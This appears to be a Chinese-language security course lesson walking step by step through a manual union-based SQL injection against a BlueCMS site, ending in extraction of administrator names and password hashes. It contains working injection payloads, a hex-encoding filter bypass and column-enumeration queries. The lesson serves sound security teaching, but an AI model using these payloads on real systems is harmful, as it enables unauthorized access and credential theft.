










网络安全入门到精通：P12：SQL注入实战

在本节课中，我们将学习SQL注入的实战应用。我们将利用之前课程中学到的知识，对一个目标进行手动SQL注入测试，从判断注入点到最终获取数据，完整地走一遍流程。通过本次实战，旨在巩固所学技能，并掌握一些实用的技巧。

---

### 概述

上一节我们介绍了CMS识别与漏洞寻找，并成功进入了后台。本节中，我们来看看如何在没有现成漏洞利用代码（Payload）的情况下，仅凭“存在SQL注入点”的提示，手动完成一次完整的SQL注入攻击。这不仅能加深对SQL注入原理的理解，也能锻炼我们独立分析和解决问题的能力。

### 判断注入点

首先，我们需要确认目标是否存在SQL注入漏洞。最基础的方法是使用单引号`‘`进行闭合测试。

我们在URL参数后添加一个单引号，例如将 `id=1` 改为 `id=1‘`。如果页面返回了SQL错误信息，例如提示“SQL语法错误”，则说明该参数可能存在注入点。

观察返回的错误信息：
`select * from blue_ad where id=1‘`
可以看到，原SQL语句是 `id=1`，我们添加的单引号破坏了语句结构，导致报错。这说明此处可能存在注入，且原语句没有使用引号包裹参数，属于数字型注入，无需闭合引号。

### 确定字段数

确认存在注入点后，下一步是确定当前查询语句所查询的字段数量。我们使用 `ORDER BY` 子句进行探测。

以下是操作步骤：
1.  从 `ORDER BY 10` 开始尝试。如果页面返回错误，说明字段数小于10。
2.  尝试 `ORDER BY 5`。如果页面正常显示，说明字段数大于等于5。
3.  此时，字段数的范围在5到10之间。我们使用二分法取中间值 `ORDER BY 7` 进行测试。
4.  如果 `ORDER BY 7` 正常，而 `ORDER BY 8` 报错，那么就可以确定字段数为 **7**。

通过这种方法，我们高效地确定了字段数量。

### 联合查询获取信息

知道了字段数为7后，我们可以使用 `UNION SELECT` 联合查询来获取数据库信息。构造Payload如下：
`id=1 and 1=2 union select 1,2,3,4,5,6,7`
这条语句利用 `and 1=2` 使前一个查询失效，从而让页面显示我们联合查询的结果。

执行后，页面在某个位置（例如数字2或7的位置）回显了我们注入的数据。假设数字7的位置可以回显，我们将其替换为数据库函数来获取信息。

例如，获取当前数据库名：
`id=1 and 1=2 union select 1,2,3,4,5,6,database()`
页面回显了数据库名称：**bluecms**。

同样，我们可以获取当前数据库用户：
`id=1 and 1=2 union select 1,2,3,4,5,6,user()`
回显用户为：**root@localhost**。

### 获取数据表名

接下来，我们需要获取目标数据库中有哪些数据表。这需要查询系统数据库 `information_schema.tables`。

构造Payload，在可回显的位置（例如位置7）查询表名：
`id=1 and 1=2 union select 1,2,3,4,5,6,table_name from information_schema.tables where table_schema=database()`
这条语句会列出当前数据库（bluecms）下的所有表名，但一次只显示一个。为了看到更多表，可以使用 `group_concat()` 函数将所有表名合并显示：
`id=1 and 1=2 union select 1,2,3,4,5,6,group_concat(table_name) from information_schema.tables where table_schema=database()`
执行后，我们得到了一个包含多个表名的列表，例如：`blue_ad, blue_admin, blue_admin_log` 等。

### 获取字段名

假设我们对 `blue_admin` 表感兴趣，想查看它包含哪些字段（列）。我们需要查询 `information_schema.columns` 表。

构造Payload：
`id=1 and 1=2 union select 1,2,3,4,5,6,column_name from information_schema.columns where table_schema=database() and table_name=‘blue_admin’`
同样，使用 `group_concat()` 可以一次性查看所有字段名：
`id=1 and 1=2 union select 1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=‘blue_admin’`

**技巧：十六进制编码绕过**
有时，直接使用表名 `‘blue_admin’` 可能会因为引号过滤等问题导致查询失败。此时，可以将表名转换为十六进制格式进行绕过。
1.  找到在线“字符串转十六进制”工具。
2.  将 `blue_admin` 转换为十六进制，结果为 `626C75655F61646D696E`。
3.  在Payload中使用 `0x` 前缀加上这串十六进制数代表原字符串：
    `... and table_name=0x626C75655F61646D696E`
这样就能有效避免因引号引起的语法错误。

执行查询后，我们得到了 `blue_admin` 表的字段，例如：`id, admin_name, admin_pwd` 等。

### 提取最终数据

最后，我们可以直接查询目标表，获取敏感数据，例如管理员账号和密码。

构造Payload：
`id=1 and 1=2 union select 1,2,3,4,5,6,concat(admin_name, ‘:’, admin_pwd) from blue_admin`
这条语句将 `blue_admin` 表中的用户名和密码拼接起来进行回显。如果密码是MD5哈希值，可能需要进一步破解。

通过同样的方法，我们可以遍历查询其他感兴趣的数据表，全面了解数据库结构及其内容。

### 总结

本节课中我们一起学习了手动进行SQL注入的完整流程。我们从判断注入点开始，逐步确定了字段数，利用联合查询获取了数据库名、用户名，进而查询了数据表名和字段名，最终提取出了目标数据。在这个过程中，我们还掌握了一个实用技巧：使用**十六进制编码**来绕过可能的引号过滤问题。

对于初学者而言，亲手完成一次完整的手工注入至关重要，这有助于夯实基础，深刻理解SQL注入的本质。在实际渗透测试中，虽然常使用自动化工具，但掌握手工注入的原理和方法是安全从业者的核心能力。